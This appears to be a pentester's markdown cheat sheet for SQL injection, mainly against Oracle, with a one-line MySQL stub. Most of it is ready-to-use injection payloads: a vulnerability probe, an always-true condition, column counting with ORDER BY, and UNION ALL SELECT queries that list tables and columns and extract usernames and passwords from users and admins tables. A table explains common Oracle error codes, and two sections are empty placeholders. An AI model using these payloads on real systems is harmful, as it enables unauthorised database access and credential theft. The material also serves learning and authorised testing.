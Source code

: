 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit_web_apps_sqli.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit_web_apps_sqli.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - SQL Injection
## Table of Contents
* [Oracle](#oracle)
* [MySQL](#mysql)

## Oracle
Check for a SQLi vulnerability
```bash
' 
```

Check the quality of SQLi vulnerability
```bash
' or 1=1 -- 
```

Get the number of columns of a table (increment the number until there is an error; ex: if 4 triggers an error, there are 3 columns).
```sql
' ORDER BY 1 -- 
' ORDER BY 2 -- 
' ORDER BY 3 -- 
' ORDER BY 4 -- 
```

Get all table names (look for user/admin tables).
```sql
' UNION ALL SELECT table_name,null,null FROM all_tables --
```

Get all possible column names within the entire database (look for values like "username" and "password").
```sql
' UNION ALL SELECT column_name,null,null FROM user_tab_cols --
```

Get usernames and passwords from the users table.
```sql
' UNION ALL SELECT username,password,null FROM users --
```

Get usernames and passwords from the admins table.
```sql
' UNION ALL SELECT username,password,null FROM admins --
```

Get the database software version.
```sql
' UNION ALL SELECT banner,null,null FROM v$version --
```

Get the database service account name.
```sql
' UNION ALL SELECT user,null,null FROM dual --
```

Execute a database function (ex: user(), database(), etc.).
```bash
# query goes here
```

Execute shell command (ex: find current working directory).
```bash
# query goes here
```

## Common Oracle-based SQL Query Errors
| ID | Error | Explaination |
|---|---|---|
|  ORA-00923 | FROM keyword not found where expected | Occurs when you try to execute a SELECT or REVOKE statement without a FROM keyword in its correct form and place. If you are seeing this error, the keyword FROM is spelled incorrectly, misplaced, or altogether missing. In Oracle, the keyword FROM must follow the last selected item in a SELECT statement or in the case of a REVOKE statement, the privileges. If the FROM keyword is missing or otherwise incorrect, you will see ORA-00923. |
| ORA-00933 | SQL command not properly ended | The SQL statement ends with an inappropriate clause. Correct the syntax by removing the inappropriate clauses.
| ORA-00936 | Missing expression | You left out an important chunk of what you were trying to run. This can happen fairly easily, but provided below are two examples that are the most common occurrence of this issue.The first example is the product of missing information in a SELECT statement. The second is when the FROM clause within the statement is omitted. |
| ORA-01785 | ORDER BY item must be the number of a SELECT-list expression | |
| ORA-01789 | Query block has incorrect number of result columns | |
| ORA-01790 | Expression must have same datatype as corresponding expression | Re-write the SELECT statement so that each matching column is the same data type. Try replacing the columns with null. For example, if you only want to see the table_name and the output is 3 columns, use "table_name,null,null" not "table_name,2,3". |

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit_web_apps_sqli.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit_web_apps_sqli.md#bottom-of-page">Bottom of Page</a>
</p>

## MySQL
```bash
' ORDER BY 1 #
```

## Bottom of Page
